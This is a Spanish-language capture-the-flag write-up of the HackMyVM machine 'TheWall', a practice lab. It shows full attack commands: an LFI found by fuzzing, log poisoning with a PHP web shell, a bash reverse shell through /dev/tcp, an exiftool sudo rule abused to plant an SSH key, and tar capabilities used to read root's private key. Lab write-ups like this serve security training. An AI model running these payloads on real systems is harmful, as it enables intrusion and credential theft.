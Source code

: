 ```yaml
---
layout: post
title: TheWall
date: 2022-11-26
author: BlackCage
categories: [HackMyVM]
tags: [HMV, Enumeration, Log Poisoning]
---
```


# TheWall [ Hack My VM ]

### Reconocimiento

##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 192.168.1.114 -oG allPorts`
- `nmap -sCV -p22,80 192.168.1.114 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Shell

Si miramos la página veremos que sólo pone un `Hello World!` en grande, por lo que poco podemos hacer, pero bueno, podemos seguir investigamos. Si vamos la ruta `/index.php` veremos el mismo mensaje, por lo que ya sabemos que está utilizando `PHP`.

Con esto aprendido podemos hacer `fuzzing` por archivos `PHP`, aunque si nos fijamos veremos que la página tiene un `WAF` (`Web Application Firewall`), por lo que si vamos muy rápido nos dará el mismo mensaje siempre (`Forbidden`). Para el siguiente paso utilizaré `GoBuster`, una herramienta creada en `GoLang` para hacer `fuzzing`.

- `gobuster dir -u "http://192.168.1.114" -w directory-list-2.3-medium.txt -x php - -delay 1s -t 1 --b 403,404`

```
/index.php (Status: 200 ) [Size: 25 ]
/includes.php (Status: 200 ) [Size: 2 ]
```

Tras esperar un buen rato vemos dos archivos, el respectivo `index.php` e `includes.php`, si abrimos dicho archivo veremos una página en blanco, podemos intuir (por el nombre) que dispondrá de algún parámetro que apuntará a un archivo local, por lo que podemos tratar de `fuzzear` ese parámetro. Para ello utilizaré `WFuzz`:

- `wfuzz -u "http://192.168.1.114/includes.php?FUZZ=/etc/passwd" -w directory-list-2.3-medium.txt --hc=404 --hh=2 -t 200`

```
000217299: 200 28 L 41 W 1460 Ch "display_page"
```

Tras otro rato esperando vemos el parámetro `display_page`, así que si nos vamos a la web podemos ver el archivo que queramos de la máquina. Acabamos de encontrar un `LFI`!

Con esto encontrado podemos hacer `Log Poisoning`, para eso me dirigiré a `/var/log/apache2/access.log`, vemos que existe, por lo que podemos  continuar. Con `NC` me conectaré al puerto `80` y mandaré una petición `GET` con un pequeño `script` en `PHP`.

- `nc 192.168.1.114 80`

```
GET <?php system($_GET['cmd']); ?>
```

Este pequeño `script` en `PHP` cogerá el `input` del parámetro `cmd`, lo ejecutará y lo mostrará en pantalla. Por lo que ya podemos ejecutar comandos en la máquina.

Para conseguir una Shell me copié de [`IronHackers`](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/) una Reverse Shell en `Bash` y la puse (intercambiando los `&` por `%26` para no obtener problemas) en el parámetro `cmd`. Antes de todo esto me puse en escucha con `NC` por el puerto `4444`.

- `nc -nlvp 4444`

Ahora sí, estamos preparados para lanzar la Reverse Shell:

```
http://192.168.1.114/includes.php?display_page=/var/log/apache2/access.log&cmd=bash -c 'bash -i >%26 /dev/tcp/192.168.1.114/4444 0>%261'
```
Bien! Hemos recibido una Shell como `www-data`!

### Subida de privilegios #1

Ahora que ya estamos en la máquina víctima tenemos que tratar de ser `root`, pero antes de eso nos tenemos que convertir en `John`. Comencé por hacer `sudo -l` para listar todo lo que podía hacer en la máquina.

```
Matching Defaults entries for www-data on TheWall:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on TheWall:
    (john : john) NOPASSWD: /usr/bin/exiftool
```
Vemos que puedo ejecutar como `John` una herramienta llamada `ExifTool`. Si nos vamos a [`GTFOBins`](https://gtfobins.github.io/gtfobins/exiftool/#sudo) vemos que podemos escribir un archivo con dicha herramienta, por lo que decidí generarme un par de llaves `SSH` en mi máquina de atacante con `ssh-keygen` y copiar la clave pública (`id_rsa.pub`) en el directorio `/tmp/` de la máquina víctima.

Con esto hecho seguí las instrucciones de [`GTFObins`](https://gtfobins.github.io/gtfobins/exiftool/#sudo), quedándome así la instrucción:

- `sudo -u john /usr/bin/exiftool -filename=/home/john/.ssh/authorized_keys /tmp/id_rsa.pub`

Esto ha hecho que copiemos nuestra `id_rsa` pública en un archivo llamado `authorized_keys`, el
cual al estar ahí nuestra llave podemos conectarnos como `John` sin proporcionar contraseña.

### Subida de privilegios #2

Una vez que estemos como `John` en la máquina ya podemos seguir nuestra misión, conseguir ser `root`, para ello (y tras varios minutos buscando) con el comando `id` listé los grupos a los que pertenecía, pertenecía al grupo `1000` , por lo que me puse a buscar ficheros que pertenezcan a dicho grupo.

- `find / -group 1000 2>/dev/null`

```
[ ... ]
/usr/sbin/tar
[ ... ]
```

Vemos un fichero llamado `tar`, vamos a ver qué capacidades tiene con `/sbin/getcap -r 2>/dev/null`:

```
[ ... ]
/usr/sbin/tar cap_dac_read_search=ep
[ ... ]
```

Como vemos tiene la capacidad de leer archivos. Me encontré un artículo de [`TBHaxor`](https://tbhaxor.com/exploiting-linux-capabilities-part-2/) que explica muy bien cómo poder explotar dicha capacidad, por lo seguí sus pasos, aunque cambiándolo un poco.

Si nos vamos a la raíz del sistema vemos dos archivos, un `id_rsa.pub` el cual
pertenece a `root` y otro archivo, `id_rsa` (el privado) que no podemos leer, por lo que podemos intuir que es de `root`. Vámonos al directorio `/tmp/`.

Bien, es la hora de explotar la capacidad de `TAR`, para ello hacemos lo siguiente:

- `/sbin/tar -czf root.id_rsa /id_rsa`

Como vemos se nos creó un archivo llamado `root.id_rsa` (o como le hayáis puesto) que si lo leemos tendrá la clave privada de `root`.

Enhorabuena! Hemos obtenido `root` en la máquina víctima de forma sencilla!